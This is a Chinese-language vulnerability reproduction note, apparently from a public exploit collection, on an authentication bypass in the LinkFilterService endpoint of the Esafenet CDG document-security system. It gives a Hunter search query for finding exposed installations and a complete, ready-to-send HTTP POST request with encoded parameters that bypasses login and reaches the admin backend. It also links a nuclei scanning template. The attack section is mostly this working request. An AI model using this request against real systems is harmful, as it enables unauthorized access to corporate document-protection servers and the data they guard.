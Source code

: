 # 亿赛通电子文档安全管理系统LinkFilterService存在身份认证绕过漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统LinkFilterService存在身份认证绕过漏洞，攻击者可通过该漏洞绕过身份认证进入系统后台。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/9fnUX648F-CLwGAI/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-472735.png)

# 四、漏洞复现
```java
POST /CDGServer3/LinkFilterService HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=BCC78770D02EC6AB78EA995E2555A2C1; JSESSIONID=C64DC678312F69EFCDADCC742CF861BB
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 98

path=BOFGGPFBFIFPBHFMGKGI&userId=GCGHGAGGFAFHFGFCFEFPFD&cur=DBNJOADCFBOPECMNBCOHMDMDKGCMMLFFCJCACB
```

![1702917036931-32f2efde-09b3-4af7-b1ff-2496b8443173.png](./img/9fnUX648F-CLwGAI/1702917036931-32f2efde-09b3-4af7-b1ff-2496b8443173-251671.png)

![1702916915310-737010ff-3342-4e2e-b45d-4a3bf6b28598.png](./img/9fnUX648F-CLwGAI/1702916915310-737010ff-3342-4e2e-b45d-4a3bf6b28598-758130.png)

![1702916934484-4afe6db6-a57e-4e26-8eda-0f096164b942.png](./img/9fnUX648F-CLwGAI/1702916934484-4afe6db6-a57e-4e26-8eda-0f096164b942-539350.png)

nuclei脚本

[亿赛通电子文档安全管理系统-linkfilterservice-逻辑漏洞.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1713621694642-61db836c-1106-4792-8570-cba42f27bd2a.yaml)



> 更新: 2024-04-20 22:01:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xdgbwbrsy3d7v4i8>